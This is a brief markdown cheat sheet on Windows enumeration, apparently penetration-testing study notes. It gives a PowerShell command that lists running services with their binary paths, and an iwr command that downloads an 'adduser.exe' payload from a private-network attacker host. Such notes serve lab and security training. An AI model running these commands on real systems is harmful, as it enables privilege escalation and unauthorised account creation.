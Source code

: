 # Windows Enumeration

### Listing Installed Windows Binaries
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

Invoke Web Request (get stuff from web site)
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe

